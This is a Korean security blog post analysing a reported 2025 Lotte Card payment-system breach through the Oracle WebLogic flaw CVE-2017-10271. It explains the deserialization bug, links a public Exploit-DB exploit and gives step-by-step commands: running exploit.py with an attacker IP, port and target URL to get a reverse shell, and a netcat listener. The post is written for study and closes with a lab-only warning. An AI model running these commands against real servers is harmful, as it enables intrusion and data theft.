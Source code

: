 ```yaml
---
title:  "2025-09 롯데카드 온라인 결제 시스템 해킹 사건 분석"
excerpt: "오라클 웹로직 CVE-2017-10271 취약점에 대해 알아보자. "

categories: [information, cve]
tags:
  - [cve, oracle ]

typora-root-url: ../../
 
date: 2025-09-02
last_modified_at: 2025-09-02
---
```

## 사건 개요
<img src="../../../images/2025-09-01-lottecard/image.png" alt="img" style="zoom:50%;" />

롯데카드 온라인 결제 시스템 해킹 시도 포착…웹쉘 업로드 통한 내부자료 1.7GB 유출 정황

롯데카드 내부 서버 해킹 시도가 실제 데이터 유출로 이어진 정황이 확인됐다. 이번 공격은 단순한 침투 시도를 넘어, 온라인 결제 시스템을 겨냥해 악성코드를 심고 내부 자료를 탈취하는 수준으로 진행된 것으로 알려졌다.

롯데카드는 지난 8월 26일 내부 서버 침해 정황을 포착한 뒤 9월 1일 금융감독원에 관련 사실을 신고했다. 자체 조사 결과, 공격자는 Oracle WebLogic(오라클 웹로직)의 CVE-2017-10271 취약점을 악용해 악성코드를 감염시킨 뒤 웹쉘을 업로드했다. 이를 통해 내부 결제 시스템 자료 약 1.7GB가 외부로 유출된 것으로 파악됐다.

롯데카드는 이번 사고가 랜섬웨어와 같은 직접적 서비스 마비 공격은 아니지만, 온라인 결제 핵심 시스템을 노린 침해였다는 점에서 사안의 심각성이 크다고 보고 있다.

**ISMS-P 획득 이후 발생한 보안 침해 사고**
롯데카드는 지난 8월 12일 정보보호 및 개인정보보호 관리체계(ISMS-P) 인증을 획득하며 보안 강화 노력을 이어온 기업이다. 그러나 불과 2주 만에 온라인 결제 시스템에서 취약점이 악용된 사건이 발생하면서 업계 전반의 보안 체계가 여전히 근본적인 위협에 직면해 있음을 보여준다.

출처 : 데일리시큐(https://www.dailysecu.com)

## CVE-2017-10271
### 취약점 개요
CVE-2017-10271은 Oracle WebLogic Server의 원격 코드 실행(RCE) 취약점으로, 공격자가 특수 제작된 XML 데이터를 전송하여 원격에서 임의의 코드를 실행할 수 있는 심각한 보안 문제이다.

해당 취약점은 WebLogic의 wls-wsat 컴포넌트에 존재하는 역직렬화 취약점으로써, 적절한 인증 없이 원격에서 공격이 가능하다. 공격자는 이를 이용해 웹쉘 업로드, 악성코드 설치, 원격 제어 등 다양한 공격을 수행할 수 있다.

### CVE-2017-10271 exploit 방법
- 공격자는 취약한 WebLogic 서버에 악성 XML 페이로드를 보내 원격 코드 실행 권한 획득
- 이후 PowerShell 스크립트 등을 이용해 공격용 바이너리를 다운로드 및 실행하거나 웹쉘을 업로드
- 공개된 익스플로잇 코드와 Metasploit 모듈이 존재하여 실습 환경에서 원격 코드 실행을 연습 가능

### exploit
[Exploit-DB] https://www.exploit-db.com/exploits/43458

#### exploit 준비 사항 및 사용 방법
- 취약한 Oracle WebLogic 서버 주소(URL)
- 공격자의 리버스 셸을 받을 IP(lhost) 및 포트(lport) (리스닝 환경 구성 필요)
- Python 3 환경 (requests 라이브러리 필요)
- 리버스 셸 리스닝 도구 (nc 또는 Python HTTP 서버 등)

#### 1. 취약한 서버가 있는 URL, 리버스 쉘을 받을 IP, Port 지정
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/
```

#### 2. 윈도우 서버 대상이면 `-w` 옵션 추가하여 윈도우용 페이로드 사용
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -w
```

#### 3. 취약 여부만 확인하려면 `-c` 옵션을 사용하여 HTTP 요청 체크 실행
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -c
```

#### 4. 이후 공격자 머신에서 리버스 쉘을 받을 리스너 실행
```bash
nc -nlvp <포트>

또는

python3 -m http.server <포트>
```
스크립트를 실행하면 취약 서버에 XML 페이로드를 전송하여 임의 코드(리버스 셸) 실행을 시도한다. 리스너에서 쉘 접속이 열리면 공격 성공

#### 주요 옵션
- `-l` : 리스너 IP
- `-p` : 리스너 포트
- `-r` : 취약 서버 URL (예: http://10.10.10.10:7001)
- `-c` : 취약점 존재 체크(HTTP 요청만 확인)
- `-w` : 윈도우 대상 페이로드 사용

주의: 반드시 허가된 실습 환경에서만 사용!!

